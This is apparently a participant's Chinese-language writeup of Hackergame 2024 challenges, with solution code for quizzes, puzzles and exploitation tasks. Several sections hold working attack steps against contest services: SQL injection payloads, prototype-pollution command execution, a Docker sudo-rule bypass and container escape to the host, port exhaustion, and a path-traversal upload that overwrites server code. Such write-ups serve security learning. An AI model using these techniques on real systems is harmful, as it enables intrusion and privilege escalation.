


# Hackergame 2024 Writeup

跟官方题解不一样的解法：[无法获得的秘密](#无法获得的秘密) canvas 一张截图解决，
[Docker for Everyone Plus](#docker-for-everyone-plus) 用 `-v ""` 提权和 Docker in
Docker。

## 签到

要输入 12 条指定内容。写了 JavaScript 从 placeholder 取。做完发现原来只要改 URL 就行。

```JavaScript
document.querySelectorAll('input').forEach(e => { e.value = e.placeholder.split(/: |：/)[1]; });
// flag{W31c0m3-t0-hAckERGam3-And-eNj0Y-HacKInG-2O24}
```

## 喜欢做签到的 CTFer 你们好呀

先看到了 <https://github.com/Nebula-CTFTeam/Recruitment-2024>，看了一会没找到
flag。又搜了一会才在 [CTF Time](https://ctftime.org/team/168863) 找到
[主页](https://nebuu.la/)。

打开开发者工具访问网页，在 Network 里搜索 `flag`，可以看到 `index-5cb01f7ec808f452.js`
里有一个文件列表，在 `ls` 加 `-a` 时会打印。`cat .flag` 能得到 flag2。

把 help 里面的命令都玩一下，其中 `env` 会打印 flag1。

## 猫咪问答（Hackergame 十周年纪念版）

1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？（30 分）
提示：填写教室编号，如 5207、3A101。

    直奔 USTC LUG。

    <https://lug.ustc.edu.cn/wiki/lug/events/hackergame/#%E6%B4%BB%E5%8A%A8%E8%AE%B0%E5%BD%95>

    [第二届安全竞赛（存档）](https://lug.ustc.edu.cn/wiki/sec/contest.html)

    3A204

2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？（30 分）
提示：是一个非负整数。

    翻 [历年题解](https://github.com/USTC-Hackergame/hackergame2023-writeups?tab=readme-ov-file#%E5%8E%86%E5%B9%B4%E9%A2%98%E8%A7%A3)。
    每年都超过了 25 题，最少的是 2019 年 28 题。然后回 LUG 找到
    [活动记录](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)。

    >经统计，在本次比赛中，总共有 2682 人注册，1904 人至少完成了一题。

3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？（20 分）
提示：仅由中文汉字构成。

    看 [题解](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)
    可以知道是 `程序员的自我修养`。

4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？（10 分）
提示：是一个非负整数。

    搜索得到 <https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf>。

    >resulting in 336 combinations

5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？（5 分）
提示：id 前 6 位，字母小写，如 c1e939。

    影响很大的事件，甚至开赛不久前还在看。

    <https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2>

6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？（5 分）
提示：首次打开本页时的 HTML 源代码，答案是一个非负整数

    找了一个网页版的
    [tokenizer](https://belladoreai.github.io/llama3-tokenizer-js/example-demo/build/)
    。在 view-source 复制粘贴得到 1834 不对，清除 cookies 之后在 Network 的
    Response 复制是 1833 对了。写题解时发现原因是前者开头多了一个换行。

## 打不开的盒

找个网页版的 [查看工具](https://www.viewstl.com/)。默认透过孔只能看到一部分。在
Model selection mode 下选中模型，改成 Wireframe，调整角度就能看到了。


## 每日论文太多了！

用 Chromium 查看，搜索 flag 会定位到 figure 4 的 `flag here`。

一顿选中复制找不到。用 Adobe 的
[工具](https://www.adobe.com/acrobat/online/pdf-to-word.html) 转换成 word
打开，ungroup figure 4 之后能发现底下还有一张很小的 flag 图片，放大后可以辨认。


话说居然在论文里面藏 flag，真的没想到。

## 比大小王

阅读 HTML 里的 JavaScript 代码，复制改改就行。先获取题目，再转换成答案提交。

注意立刻提交服务器会返回 `检测到时空穿越`，要等几秒。

```JavaScript
fetch(
    '/game',
    {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({}),
    }
)
    .then(response => response.json())
    .then(
        data => {
            setTimeout(() => {
                submit(data.values.map(x => x[0] < x[1] ? '<' : '>'))
            }, 5000);
        }
    )
// flag{i-4m-tH3-HAcK3r-kIn9-oF-coMPaRING-num6eRs-Z024}
```

## 旅行照片 4.0

历次旅行照片里最顺利的一次，但还是花了不少时间。

第二问搜索找到中科大LEO动漫协会发的
[动态](https://www.bilibili.com/opus/930934582351495204)，日期是 20240519。

第一问搜出来一些其他地方的，手动枚举得到 东校区西门。

第三问直接搜图会找到很多很像的路，但照片里的分界线是红黄蓝三色且红色线靠近红色道，
翻了一堆没一个符合的。

右下角的垃圾桶上有一行小字 `?安园林`。
代入九可以搜到雅安市和九江市的公司，但没找到看起来像的。又试了八没结果。
最后用六找到六安市，搜索可以找到是
[中央公园](http://vip.people.com.cn/albumsDetail?aid=1615252&pid=11616912)。

第四问直接图片搜索就能找到是 [坛子岭](https://www.mafengwo.cn/i/21186454.html)。

第六问一开始搜到很多广东城际四编组动车的新闻，找了一会没找着。忘了用什么关键词搜到了是
CRH6F-A [怀密号](https://www.yangtse.com/zncontent/807942.html)。

照片里有两辆怀密号，那地址应该是怀密线附近。搜了几个车站，样子都不像。问了 LLM
说这种检修动车的地方叫机务段，又搜了一下也没找到。看视频想找找灵感（摸鱼）的时候发现是
[北京北动车所](https://www.bilibili.com/video/BV12z421Z74c?t=260.8)
，看地图可以知道最近的医院是积水潭医院。

## 不宽的宽字符

代码读取输入字符串，转换成 `std::wstring`，在后面加上 `you_cant_get_the_flag`
之后强制转换成 `char *`。读
[文档](https://en.cppreference.com/w/cpp/language/types#Character_types)
可知 `std::wstring` 的 `wchar_t` 在 Windows 上是 UTF-16 编码。还提到因为 Windows
只有 16 bits 放不下 Unicode，不过最后没用上。

只要使编码后结果为 `"theflag\0"`，后面添加的内容就会被忽略。这里刚好 8 个字符是 2
的整数倍，如果长度不对可以在前面加 `/` 或者后面随便补一个字节。

```Python
b'theflag\x00'.decode('utf-16le')
# '桴晥慬g'
# The flag is: flag{wider_char_isnt_so_great_72d3ae7017}. Congratulations!
```

## PowerfulShell

能用的字符大概剩下这些：

```plaintext
 ~`:{}$-_+=[]|123456789
```

然后一边翻 `man bash` 一边乱试

```shell
:
~+
# /players/PowerfulShell.sh: line 16: /players: Is a directory
$1
~-
# /players/PowerfulShell.sh: line 16: ~-: command not found
$$
# /players/PowerfulShell.sh: line 16: 7: command not found
$-
# /players/PowerfulShell.sh: line 16: hB: command not found
$_
# ./PowerfulShell.sh: line 16: input: command not found
```

一开始想着找一个构造任意命令的方法，比如十进制按 ASCII 编码转成字符之类的，
但只得到了这些乱七八糟的东西。禁用了字母真的是寸步难行。

然后找到了 `${parameter:offset:length} Substring Expansion`，可以用来取子串。

```shell
${-:1}
# ./PowerfulShell.sh: line 16: B: command not found
```

这个东西还支持算术运算，所以可以绕过不能用 `0` 的问题。

```shell
${-:1-1:1}
# ./PowerfulShell.sh: line 16: h: command not found
```

注意到我们刚好有 `s` 也有 `h`，所以只要想办法把它们拼起来就行。

```shell
~+||${_:7}${-:1-1:1}
cat /flag
# flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_d317ffbb97}
```

感觉很碰运气，但看了官方题解这居然是预期解。

## Node.js is Web Scale

服务会把输入切分之后一路赋值。容易想到是 `__proto__`，乱搞一下就行。

```JavaScript
// set
__proto__.foo
cat /flag
// /execute?cmd=foo
// flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_ea7769f223}
```

## PauluGPT

`/view` 接口直接用输入拼接成 SQL 查询，所以可以 SQL 注入攻击。

```SQL
1' OR contents like '%flag{%}
1' OR contents like '%flag%
-- flag{enJ0y_y0uR_Sq1_&amp;_1_would_xiaZHOU_hUI_guo_ce4bf3b6df}
-- flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_ce4bf3b6df}
1' OR contents like '%flag%' AND contents NOT LIKE '%would_xiaZHOU_hUI_guo%
-- flag{zU1_xiA0_de_11m_Pa0lule!!!_56541d4385}
```

先出了 flag2，HTML 实体要转义。再加个条件能得到 flag1。看了下原来 flag1 的消息是可见的。

打开网页的时候风扇起飞了，里面有很多换行，一做完赶紧关掉。

## 强大的正则表达式

注意到 16 能整除 10000。所以只要 `x % 10000` 能被 16 整除，x 也能被 16
整除。长度不超过 3 的单独处理。

```Python
import itertools

'|'.join(str(i) for i in range(10))
# '0|1|2|3|4|5|6|7|8|9'

'|'.join(itertools.chain(
    (str(i * 16) for i in range(62)),
    (f'((0|1|2|3|4|5|6|7|8|9)*({"|".join(f"{i * 16:04d}" for i in range(625))}))',),
))
# flag{p0werful_r3gular_expressi0n_easy_f0a7c0dd30}
```

flag2 花了比较多时间。

正经的做法是以当前值 mod 13 作为状态，读入新字符时左移一位原值再按位或上去更新状态。
但是没想到要怎么构造正则表达式。一度想写固定深度的 DFS 来概率题目概率过，没动手。

然后想了个歪招。按类似 flag1 的思路，当 13 的乘数里有连续的 0 时，结果会在这里分成两个
13 的倍数。比如 `0b10001 * 13 == 0b11011101`，可以拆分成两个 `1101`。数长了之后出现
000 的概率不低，如果我们将能被 13 整除的数表示成 `(0|(1...))0*`
的形式，多塞一点，就有一定的概率能匹配上。

结果一测连 `2 ** 20` 都秒失败。因为 13 太大了，就算出现 000，如果后面是 11
或者其他很大的数，还是有很大概率会进位。

```Python
print(sum(int(len(bin(m * 13)) == len(bin(m)) + 4) for m in range(2 ** 13)) / 2 ** 13)
# 0.768310546875
```

然后搜到了一篇
[文章](http://blog.sigfpe.com/2007/02/modular-arithmetic-with-regular.html)
，想起来可以构造有限状态自动机再转换成正则表达式。Kleene's algorithm
得花时间学。[JavaScript 实现](https://ivanzuzak.info/noam/webapps/fsm2regex/)
跑了半小时没跑完。找到的
[一些](https://pypi.org/project/automata-toolkit/)
[实现](https://github.com/vinyasns/dfa-to-regex)
看起来不太好用，最后还是用了 [JFLAP](https://www.jflap.org/)。



JFLAP 功能能满足需求，但只能手画，另外一个坑是输出的正则里 `+` 其实是 `|`，一开始用
`x+ == xx*` 的方法写了个转换脚本，发现结果不对才知道。

flag3 是 GSM3 CRC，8 个状态，字典有 10 个字符，找个
[在线工具](https://emn178.github.io/online-tools/crc/)
勉强可以苦力。画完错了好几处，还好 JFLAP 调试状态机也挺方便。



## 惜字如金 3.0

这次每一行都会填充到 80 个字符，所以可以轻松判断哪些行缺字符。注意禁用 trim trailing
whitespace。

flag1 用编辑器打开，哪里报错改哪里就行。

flag2 是 CRC 的 poly 被 XZRJ 掉了。判题程序会给出不匹配的行的 hash，所以上来就是 z3
[一把梭](./13-惜字如金%203.0/2-solve.py)。

3 个版本跑了好久没出解，感觉不对劲。这时突然注意到因为 `crc` 中的 `digest`
初始值固定，我们可以控制输入让它的最低位一直保持为 0，最后出一个 1，这样 `crc`
的结果就是 `~flip`。

```shell
{ printf '\xFF\xFF\xFF\xFF\xFF\xFF'; dd if=/dev/zero bs=1 count=74; echo; } > no_flip
{ printf '\xFF\xFF\xFF\xFF\xFF\xFF'; dd if=/dev/zero bs=1 count=73; printf '\x80'; echo; } > only_flip
{ cat no_flip only_flip; tail -n +3 2.py; } > get_flip.py
```

```Python
hash_hex = '373e653ad895'
u2, u1, u0 = 241818181881667, 279270832074457, 202208575380941
digest = (1 << 48) - 1
digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)
digest == int.from_bytes(bytes.fromhex(hash_hex), "little")
# True
```

验证可行。但 hash 我也不知道怎么还原，还是用 z3。

```Python
import z3

solver = z3.Solver()
poly_degree = 48
flip = z3.BitVec("flip", poly_degree)
solver.add(flip & (1 << (poly_degree - 1)) == (1 << (poly_degree - 1)))
digest = flip ^ (1 << poly_degree) - 1
u2, u1, u0 = 241818181881667, 279270832074457, 202208575380941
digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)
hash_hex = 'd77759699022'
solver.add(digest == int.from_bytes(bytes.fromhex(hash_hex), "little"))
result = solver.check()
print(result)
if result != z3.sat:
    exit(1)
m = solver.model()
print(bin(m[flip].as_long())[2:][::-1].replace('0', 'b').replace('1', 'B'))
# flag{Succe55fu11y-Deduced-A-CRC-Po1ynomia1} 
```

## 优雅的不等式

flag1 乱写通过的。

```Python
4*((1-x**2)**(1/2)-(1-x**2))
# flag{y0u_ar3_g0od_at_constructi0n_b1089ca700}
```

flag2 查到了 Backhouse (1995) 和 Lucase (2007)，但是没构造出来任意分母的。
看题解原来在知乎。当时看通过人数这么多应该多搜一下的。

## 无法获得的秘密

这题需要从只有视频的 VNC 取出文件。解法自由度很高，挺好玩的。

系统里面有 Python 和 Firefox。文件几乎不可压缩。从群里得知重新连接后文件不变。

先想到 base64 打印然后 OCR，感觉比较麻烦，因为要控制同步。
打一页稍等确保显示完毕，截图再打下一页。全屏后大概能显示 100 x 39 个字符，要分不少页。

在开发者工具里看到传输的是 JPEG，质量看着还不错。屏幕大小有 1024 x 768，装 512 KiB
没问题。于是大胆尝试用每个像素的 RGB 值来传数据。

问问 LLM：

>Write a page with HTML and JavaScript. The page should read a file submitted by
>user, then draw one RGB pixel for every three bytes of data on a rectangular
>canvas.

LLM 写的用 JavaScript 画 canvas 的
[代码](./15-无法获得的秘密/canvas-GPT-4o_mini.html)
一次成功。不过我原来想的是固定大小，LLM 的代码是调整成了接近正方形。

>Write Python code that recovers the original file from a screenshot of part of
>the above page.
>
>1. Start from the top middle, go down and find the first black pixel to locate
>    the upper border.
>2. Start from the middle left, go right and find the first black pixel to
>    locate the left border.
>3. Read color of pixels in the data area, convert them to original data and
>    write to output file.

Python 还原 [代码](./15-无法获得的秘密/recover-GPT-4o_mini.py)
没考虑右边和下边的 border，而且取的像素下标不对，需要改改。

本地测试通过，开搞。因为代码删减后只有几百字符，直接手敲了。截图还原一气呵成，然而
MD5 不一致。用 xxd 盯了一下发现有个像素的最低位不一样。

改成 RGB565，每个像素编码 2 字节。颜色的低位使用 10 和
100，在编码范围的中间，避免颜色偏移到旁边的编码。调试了一会才写对，人肉上传，运行，MD5
还是不对。二分查找发现有一个像素的绿色刚好偏了 2，还是跑到旁边去了。

一开始还是太乐观了。实践发现在没有配置的 vim 里敲 HTML
有种担心敲错的压力，多敲几次人就烦躁了。早知道应该自动化输入，但当时已经杀红了眼没考虑。

又改成 RGB444，2 个像素编码 3 字节，效率打五折。终于成功了。


如果读者想要验证，我的 secret 的 MD5 是 0f6d2ca3110a7dcf2210c194522b1cbf。

拿到 flag 再回去看，发现 noVNC 可以改质量。写题解的时候试了一下（感谢 huige233 的
[自动化代码](https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/players/huige233/writeup.md#%E6%97%A0%E6%B3%95%E8%8E%B7%E5%BE%97%E7%9A%84%E7%A7%98%E5%AF%86)
），质量调到最高还是有错误。
再在本地测试发现也不行。

经过测试，Windows 11 23H2 的 mspaint 11.2408.30.0 从剪贴板黏贴会出现颜色不准的问题。
`PIL.ImageGrab.grabclipboard` 获取的图片颜色是准的。Windows 10 22H2 的经典 mspaint
则没有问题。VNC 最高质量 RGB565 颜色还是不准。

## Docker for Everyone Plus

先看看情况。

```shell
ls -l /flag
# lrwxrwxrwx    1 root     root             9 Oct 15 17:17 /flag -> ./dev/vdb
sudo -l
# /usr/bin/docker run --rm -u 1000\:1000 *
# /usr/bin/docker image load
# !/usr/bin/docker * -u0*
# !/usr/bin/docker * -u?0*
# !/usr/bin/docker * --user?0*
# !/usr/bin/docker * -ur*
# !/usr/bin/docker * -u?r*
# !/usr/bin/docker * --user?r*
```

在第二问的容器里也执行看看，可以大概知道第一问的预期解要用什么。

```diff
-/usr/bin/docker run --rm -u 1000\:1000 *
+/usr/bin/docker run --rm --security-opt\=no-new-privileges -u 1000\:1000 *
+!/usr/bin/docker * --privileged*
+!/usr/bin/docker * --device*
```

多禁用了 `--privileged` 和 `--device`，虽然文档很含糊但就用这俩吧。

题目只留了个 `docker load`，镜像需要自己上传。描述里说可以用 rz。

想起了 GeekGame-3rd 的
[Z 公司的服务器](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/official_writeup/prob05-zserver)
，在官方和
[选手](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/players_writeup/1104)
题解里找到了很多支持 ZMODEM 的软件。

按
[文章](https://gangmax.me/blog/2016/12/08/using-rz-slash-sz-to-transfer-files/)
所说在 GNU screen 里 `:zmodem catch`，再执行 `rz`，screen 有弹出 `sz`
命令，但执行后打印 `sz: skipped: somefile`。

以为是 screen 的问题，就去试了几个软件。最后 WindTerm 和 AbsoluteTelnet 连输 token
都完成不了，SecureCRT 的 raw mode 在 cd 到 /tmp 后能传文件，回到 screen 只要 cd
/tmp 也能传。

题目的 `docker run` 命令要求用 `-u 1000:1000`，那做一个含有 SUID root 程序的镜像。

```shell
docker run -it --name suid busybox:1.37.0-glibc
# chmod u+s /bin/sh
docker container commit suid
docker save 566c | gzip -c > 566c.tar.gz
```

上传之后导入镜像。

```shell
gzip -dck 566c.tar.gz | sudo docker image load
sudo docker run --rm -u 1000\:1000 -it --privileged --device /dev/vdb:/dev/vdc -v /:/host 566c
```

结果发现 busybox 的 /bin/sh 设置成 SUID 后还是原来的用户。改成用 `passwd` 设置
root 账号的密码，配合 SUID 的 /bin/su 提权。

```shell
# Both works.
cat /host/dev/vdb
cat /dev/vdc
# flag{dONT_1OAD_uNTRusT3D_1ma6e_3ec063eb8d_plz!}
```

第二问的命令加了 `--security-opt\=no-new-privileges`。Docker 的
[文档](https://docs.docker.com/reference/cli/docker/container/run/#security-opt)
链接到 Linux kernel 的
[文档](https://www.kernel.org/doc/Documentation/prctl/no_new_privs.txt)
，说是会让程序的 setuid bit 失效。果然 su 不能用了，提示 `su: must be suid to work
properly`。

绕过方式是重复指定 `-u` 参数。虽然 sudo 禁用了 `0` 和 `r` 开头，但 `1000:6`
还可以用，6 是 disk 组。更特别地，Docker 文档里出现过的 `-u ""` 会将配置重置为默认的
root。

但是光在容器里拿到 root 权限还是不能读设备，提示 Operation not permitted，读普通文件倒是没问题。

然后是一系列瞎尝试。失败尝试有
禁用 [seccomp](https://docs.docker.com/engine/security/seccomp/)，加
`--cap-add=ALL`，改 `/etc/shadow`（文件系统是只读的），改 sysfs 里的
[cgroup](https://stackoverflow.com/a/53892718) 配置（没找到）。虽然知道 procfs 和
sysfs 是宝藏，但是不会用。

最后搜到容器逃逸可以用 Docker 的 socket。于是直接用外面的文件系统 Docker in
Docker，不需要制作专门镜像。在容器里 `docker run` 命令没有限制，照抄 flag1 就行。

```shell
chroot /host
docker ps
# CONTAINER ID   IMAGE     COMMAND   CREATED         STATUS         PORTS     NAMES
# 070374ab3f6c   566c      "sh"      2 minutes ago   Up 2 minutes             peaceful_hofstadter
# flag{contA1N3R_R0ot_i5_4cCESsIb1e_10014ee828}
```

## 看不见的彼方：交换空间

用 TCP 传数据，读一点 truncate 一点。接收方先把数据放内存来处理逆序，写一点释放一点。

让 LLM 帮忙写

>Complete these two functions that sends a file through a TCP socket on Linux
>
>```cpp
>void send(int sockfd, const char *path, int size_in_MiB) {
>    for (int i = size_in_MiB - 1; i >= 0; --i) {
>        // Read the last 1 MiB from the file and send it out to the socket
>        // Truncate the file by 1 MiB
>    }
>}
>
>void receive(int sockfd, const char *path, int size_in_MiB) {
>    void *blocks[1000];
>    for (int i = size_in_MiB - 1; i >= 0; --i) {
>        // malloc blocks[i] of size 1 MiB
>        // Receive 1 MiB of data from socket into blocks[i]
>    }
>    // open the file
>    for (int i = 0; i < size_in_MiB; ++i) {
>        // write blocks[i]
>        // free block[i]
>    }
>    // close the file
>}
>```

Claude 3.5 Sonnet 写的
[代码](./17-看不见的彼方：交换空间/send_file-Claude-3.5-Sonnet.c)
基本上能用，主要是出错时没报告而是默默忽略掉。

为了避免出问题直接静态链接。

麻烦的地方在目标文件虽然可以读写，但不能删除或重命名，解决方法是用临时文件多倒腾一个来回。

## 链上转账助手

直接问 LLM

>main.py:
>
>```Python
>...
>```
>
>challenge1.sol:
>
>```solidity
>...
>```
>
>challenge2.sol:
>
>```solidity
>...
>```
>
>Please write solidity code that can get flag1 and flag2 respectively.

在 Hackergame 2022
[链上记忆大师](https://github.com/USTC-Hackergame/hackergame2022-writeups/tree/master/official/%E9%93%BE%E4%B8%8A%E8%AE%B0%E5%BF%86%E5%A4%A7%E5%B8%88)
找到了 <https://remix.ethereum.org/> 可以在线编译，不用配环境。

flag1 给的解法是消耗超过 2300 gas。flag2 给的解法是 revert，没通过，把 flag1
代码的循环次数改大就行。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Player1 {
    fallback() external payable {
        // Consume more than 2300 gas
        uint256 a = 1;
        for(uint i = 0; i < 1000000; i++) {
            a = a * 2;
        }
    }
}
```

## 不太分布式的软总线

Claude 3.5 Sonnet 秒了。flag1 和 flag2 直接通过，flag3 是我拖了后腿，没有传
`server.py`，导致它以为我们可以控制文件名。阅读 `man 5 proc` 可以知道
/proc/pid/comm 是可以修改的。

最难的反而是编译，不过也只要参考题目代码就行。

```shell
sudo apt install pkg-config libglib2.0-dev
gcc 1.c $(pkg-config --cflags --libs gio-2.0)
```

## 动画分享

第一问一开始想复杂了。每个 TCP 连接由（源地址、源端口、目标地址、目标端口）组成的四元组确定。
本题中只有源端口是变化的，所以只要耗尽所有端口，就能使 `server.py` 无法建立新连接。

```shell
cat /proc/sys/net/ipv4/ip_local_port_range
# 32768 60999
```

起码在一些版本和配置的 WSL 2 中，这个端口范围尤其小，可以轻松触发。

```shell
cat /proc/sys/net/ipv4/ip_local_port_range
# 60700  61000
python3 -m http.server &
python3 1.py
curl -v telnet://127.0.0.1:8000
# *   Trying 127.0.0.1:8000...
# * Immediate connect fail for 127.0.0.1: Cannot assign requested address
```

写完代码上传没有 flag。在前台打印了一下发现最多只能成功建立 130
个连接，把数量改小之后通过了。

实际上不需要这么复杂，fileserver 是处理完一个连接再处理下一个，只要 fork
一个进程建立一个连接就够了。

第二问一开始以为是用类似 xdotool 的软件发按键，但是编译打包比较麻烦而且可能需要权限，
没尝试。

后来根据加粗提示搜索到
[CVE-2022-41138](https://nvd.nist.gov/vuln/detail/CVE-2022-41138)，有修复的
[commit](https://github.com/tomszilagyi/zutty/commit/bde7458c60a7bafe08bbeaafbf861eb865edfa38)
和包含 PoC 的 [issue](https://bugs.gentoo.org/868495)。大概是 zutty 会把不合法的
DECRQSS 原样回复，导致可以执行任意代码。相比大家都试过在程序运行时乱按，
程序没有消耗这些输入，程序退出后这些输入被 shell 读取到的经历。只要 exit 离开
chroot，再 chmod 一下就可以。

然而前提条件是要让 flagserver 退出，把前台还给 shell。读了代码也问了
LLM，没发现代码里有什么漏洞。kill 是没权限的。又搜索到 Ctrl + C
不是字符而是由终端处理并发信号的。最后没做出来。

## 关灯

不要跟我说什么线性方程组、`GF(2)`、高斯消元，老夫从来都是 z3 [一把梭](./24-关灯/solve.py)！

## 禁止内卷

`POST /submit` 端点用了 `os.path.join`，可以路径穿越写任意文件。题目又说加了
`--reload`，所以可以改服务代码。名字 `app.py` 是根据搜索结果猜的。

```Python
import requests

url = 'https://chal02-eg9c8e2o.hack-challenge.lug.ustc.edu.cn:8443/submit'
with requests.Session() as session:
    files = {'file': ('../../../../../tmp/web/app.py', open('mod.py', 'rb'))}
    r = session.post(url, files=files)
    print(r.status_code)
    print(r.headers)
    print(r.text)
```

```diff
+ @app.route("/answers", methods=["GET"])
+ def answers():
+     with open("answers.json") as f:
+         return f.read()
+
```

```Python
l = [37, 43, 32, 38, 58, 52, 45, 46, -32, -32, -32, -32, 30, 36, 50, 49, 36, 53, 36, 49, 30, 45, 46, 54, 30, 20, 30, 49, 52, 45, 30, 12, 24, 30, 34, -17, 35, 36, 36, -17, -8, -17, -9, 35, -15, -9, -14, -11, 60, 20, 30, 22, 20, 58, 39, 10, 51, 53, 34, 42, 95, 36, 75, 83, 74, 21, 86, 97, 30, 15, 16, 38, 5, 66, 88, 74, 74, 15, 68, 92, 38, 23, 86, 69, 83, 43, 73, 88, 24, 20, 57, 11, 6, 59, 8, 65, 11, 78, 20, 24, 87, 59, 62, 32, 16, 24, 40, 49, 61, 60, 86, 12, 63, 65, 57, 66, 47, 71, 21, 80, 19, 65, 78, 68, 62, 50, 91, 43, 67, 65, 18, 44, 96, 83, 79, 75, 21, 25, 26, 29, 36, 55, 8, 90, 28, 20, 6, 76, 42, 5, 52, 97, 42, 65, 19, 95, 86, 19, 60, 91, 72, 32, 99, 44, 15, 68, 14, 7, 74, 56, 79, 30, 69, 94, 42, 86, 9, 28, 74, 49, 23, 55, 14, 56, 54, 35, 27, 87, 97, 51, 51, 44, 37, 33, 93, 27, 67, 79, 26, 24, 12, 44, 94, 78, 79, 62, 96, 82, 48, 41, 59, 98, 99, 23, 15, 92, 3, 13, 74, 25, 100, 82, 2, 35, 91, 48, 52, 46, 16, 42, 56, 57, 73, 44, 10, 3, 58, 21, 79, 83, 30, 71, 49, 86, 47, 58, 83, 22, 18, 42, 98, 83, 46, 43, 74, 31, 90, 90, 95, 10, 72, 48, 87, 16, 0, 64, 14, 9, 46, 82, 4, 1, 36, 80, 18, 33, 40, 72, 10, 76, 75, 94, 46, 68, 74, 45, 38, 87, 99, 41, 42, 48, 10, 76, 60, 4, 68, 41, 25, 21, 1, 96, 13, 32, 96, 59, 11, 42, 14, 74, 78, 47, 63, 59, 54, 59, 64, 15, 86, 68, 93, 99, 72, 28, 8, 73, 24, 33, 29, 90, 59, 52, 70, 41, 81, 23, 32, 55, 23, 15, 20, 86, 31, 3, 6, 97, 81, 56, 27, 14, 88, 79, 59, 91, 49, 14, 98, 66, 82, 58, 97, 42, 36, 72, 17, 45, 85, 55, 83, 97, 41, 50, 12, 69, 35, 21, 65, 25, 32, 94, 75, 86, 44, 69, 83, 57, 31, 56, 93, 47, 47, 23, 38, 16, 90, 8, 97, 4, 90, 82, 58, 85, 45, 90, 66, 87, 5, 93, 53, 66, 16, 76, 45, 89, 69, 47, 88, 85, 88, 28, 39, 70, 65, 9, 21, 62, 87, 4, 73, 40, 34, 30, 64, 31, 20, 6, 96, 27, 82, 27, 60, 45, 6, 40, 54, 2, 23, 3, 45, 53, 31, 30, 65, 89, 45, 24, 27, 84, 79, 11, 90, 23, 78, 100, 95, 87, 28, 100, 44, 64, 73, 17, 5, 73, 8, 62, 3, 63, 85, 37, 33, 49, 79, 39, 49, 44, 1, 100, 46, 92, 10, 15, 11, 78, 83, 97, 74, 27, 30, 82]
''.join(chr(d + 65) for d in l)
